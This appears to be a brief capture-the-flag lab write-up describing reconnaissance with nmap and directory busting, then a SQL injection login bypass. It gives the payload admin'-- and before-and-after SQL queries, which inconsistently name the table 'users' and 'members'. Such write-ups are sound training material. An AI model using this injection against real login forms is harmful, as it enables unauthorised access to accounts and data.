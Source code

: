 # Intro A veure?
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Linux | 10/05/2022 | 10/05/2022 | Yes |


# Thought process
1. View running services with nmap.
2. Check if there were subdirectories with the dirbust.
3. Since it was a LogIn, see if SQL Injection can be done.


# Resolution
To Login a Web is just a SELECT to the database, but if in the username you write **admin'--** the rest of the query is commented out and does not look for a password. SQL Injection. 

> Normal Login Query
```sql
SELECT * FROM users WHERE name='admin' and password='123456aA'
```

> Query with SQL Injection
```sql
SELECT * FROM members WHERE username = 'admin'--' AND password = '123456aA'
```


# Links
[SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)


# Tags
#SQL #SQL_Injection
